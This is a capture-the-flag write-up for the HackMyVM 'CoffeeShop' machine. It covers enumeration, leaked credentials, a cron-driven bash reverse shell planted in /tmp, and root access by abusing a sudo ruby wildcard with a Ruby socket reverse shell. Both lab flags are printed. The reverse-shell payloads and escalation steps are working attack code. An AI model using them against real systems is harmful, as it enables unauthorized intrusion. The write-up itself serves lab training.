

## 🖥️ Machine Information

<div class="hmv-info-card">
  <div class="hmv-card-header">
    <div class="htb-header-left">
      
      <div>
        <h3 class="hmv-machine-title">CoffeeShop</h3>
        <span style="font-size: 0.85rem; color: var(--text-secondary);">Linux</span>
      </div>
    </div>
    <span class="hmv-diff-badge easy">EASY</span>
  </div>

  <div class="hmv-meta-row" style="grid-template-columns: repeat(4, 1fr);">
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Platform</span>
      <span class="hmv-meta-val orange">HackMyVM</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">OS</span>
      <span class="hmv-meta-val">🐧 Linux</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Difficulty</span>
      <span class="hmv-meta-val">Easy</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">IP Address</span>
      <span class="hmv-meta-val" style="font-family: monospace; font-size: 0.95rem;">192.168.56.128</span>
    </div>
  </div>
</div>

---

## 🧠 Attack Path Overview



> [!NOTE]
> This writeup details the complete attack path for the **CoffeeShop** machine on the **HackMyVM** platform.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Host Discovery & Port Scanning
We start by scanning the target with Nmap:

```bash
sudo nmap --min-rate=2000 -v -A -p- 192.168.56.128
```

#### Open Ports:
```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.5
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
```

### 2. Virtual Host Enumeration
The web server on port 80 redirects to `midnight.coffee`. We add it to our `/etc/hosts` file and enumerate subdomains:

```bash
gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
  -t 200 --append-domain -u http://midnight.coffee/
```

```text
Found: dev.midnight.coffee Status: 200 [Size: 1738]
```

### 3. Dev Subdomain — Credential Leak
Accessing `http://dev.midnight.coffee/` reveals hardcoded developer credentials:

```text
developer:developer
```

### 4. Shop Login — Internal Credentials
We authenticate to the shop panel at `http://midnight.coffee/shop/login.php` using the discovered credentials.

Inside the shop panel, we find a message containing SSH credentials for the `tuna` user:

```text
To login into the server use: tuna : 1L0v3_TuN4_Very_Much
```

---

## 🚀 Phase 2: Foothold as tuna

We connect via SSH using the leaked credentials:

```bash
ssh tuna@192.168.56.128
```

```text
tuna@coffee-shop:~$ whoami
tuna
```

---

## ⚡ Phase 3: Lateral Movement & Privilege Escalation

### 1. Cron Job Discovery
We run `linpeas.sh` for automated privilege escalation analysis. The crontab reveals a critical entry:

```text
* * * * * /bin/bash /home/shopadmin/execute.sh
```

Reading the script:
```bash
cat /home/shopadmin/execute.sh
```
```bash
#!/bin/bash
/bin/bash /tmp/*.sh
```

Every minute, a cron job running as `shopadmin` executes all `.sh` files inside `/tmp/`. Since `/tmp/` is writable by all users, we can plant a malicious reverse shell script.

### 2. Shell Upload and Cron Trigger
We write a bash reverse shell payload into `/tmp/`:

```bash
echo 'bash -i >& /dev/tcp/192.168.56.127/9999 0>&1' > /tmp/shell-1.sh
```

We start a listener:
```bash
nc -lnvp 9999
```

After up to one minute, the cron job executes our shell and we receive a connection:

```text
Connection received on 192.168.56.128
id
uid=1001(shopadmin) gid=1001(shopadmin) groups=1001(shopadmin)
```

We retrieve the user flag:
```bash
cat /home/shopadmin/user.txt
```
Output: `DR1NK1NG-C0FF33-4T-N1GHT`

### 3. Root Privilege Escalation via Sudo Ruby
We check `shopadmin`'s sudo permissions:

```bash
sudo -l
```
```text
User shopadmin may run the following commands on coffee-shop:
    (root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb
```

The wildcard `*` in the sudo rule allows us to insert an arbitrary **prefix** script before `/opt/shop.rb`. This means we can supply a Ruby reverse shell as the first argument — Ruby will execute it first.

We decode and write a Ruby reverse shell to `/tmp/`:

```bash
cat > /tmp/shell-2.rb << 'EOF'
require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 9998, '192.168.56.127'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
EOF
```

We start another listener:
```bash
nc -lnvp 9998
```

We trigger the sudo exploit:
```bash
sudo /usr/bin/ruby /tmp/shell-2.rb /opt/shop.rb
```

We receive a root shell:
```text
Connection received on 192.168.56.128
id
uid=0(root) gid=0(root) groups=0(root)
```

We retrieve the root flag:
```bash
cat /root/root.txt
```
Output: `C4FF3331N-ADD1CCCTIONNNN`
